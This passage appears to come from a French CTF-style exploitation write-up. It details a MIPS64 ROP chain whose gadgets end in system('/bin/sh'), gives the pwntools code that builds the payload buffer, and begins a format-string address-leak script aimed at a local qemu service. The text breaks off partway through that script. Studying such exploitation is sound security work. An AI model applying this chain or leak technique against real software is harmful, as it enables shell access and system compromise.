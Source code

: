 ### Étapes de la ROP chain

1. **Préparation de la pile**

   Le buffer est construit pour placer les adresses des gadgets et les valeurs nécessaires aux registres sur la pile de manière ordonnée.

2. **Configuration des registres et arguments**

   - `$ra` est mis à `move_t9_s0_ld_a0_0x38`
   - `$s1` est mis à l'adresse de la fonction `system`
   - `$s0` est mis à `jmp_s1`
   - `$a0` est mis à l'adresse de la chaîne `/bin/sh`
   - Remplissage de padding pour aligner correctement les valeurs sur la pile.

### Construction du buffer

```python
buf += p64(ra_ld_s0_s1_jmp_ra_addr)      # Adresse du gadget ra_ld_s0_s1_jmp_ra
buf += p64(jmp_s1_addr)                  # Valeur pour $s0 (adresse du gadget jmp_s1)
buf += p64(system_addr)                  # Valeur pour $s1 (adresse de la fonction system)
buf += b'b' * 8                          # Padding pour aligner avec 8($sp)
buf += p64(move_t9_s0_ld_a0_0x38_addr)   # Valeur pour $ra (adresse du gadget move_t9_s0_ld_a0_0x38)
buf += b'c' * 0x38                       # Padding pour aligner avec 0x38($sp)
buf += p64(bin_sh_addr)                  # Valeur pour $a0 (adresse de la chaîne /bin/sh)
```

### Résumé du déroulement

1. **Initialisation**
   - `ra_ld_s0_s1_jmp_ra` charge les registres `$ra`, `$s1`, et `$s0` depuis la pile, et retourne à `move_t9_s0_ld_a0_0x38`.

2. **Exécution de `move_t9_s0_ld_a0_0x38`**
   - Ce gadget configure `$t9` avec l'adresse du gadget `jmp_s1`, et charge l'adresse de la chaîne `/bin/sh` dans `$a0`, puis appelle `jmp_s1`.

3. **Exécution de `jmp_s1`**
   - `jmp_s1` configure `$t9` avec l'adresse de la fonction `system`, puis appelle `system` avec `/bin/sh` comme argument.

Ainsi, cette chaîne d'instructions utilise des gadgets pour manipuler les registres et la pile, menant à l'appel de `system("/bin/sh")`, ouvrant un shell.

## Trouver les leaks

Afin de trouver les leaks, on commence par lancer le binaire en local en boucle.

````shell
socat tcp-listen:4000,reuseaddr,fork exec:"qemu-mips64el -L /usr/mips64el-linux-gnuabi64/ ./vuln"
````

On utilise ce script qui va permettre de leak les adresses grâce à la vulnérabilité format string :

````python
from pwn import * # CONNECT:

context.update(arch='mips64', os='linux', word_size=64, endian='little')

for i in range(350):
    target = remote("localhost", "4000")

    # Select admin menu
    target.recvuntil(b"#>")
    buf = b'5'
    target.sendline(buf)

    # Enter pwd
````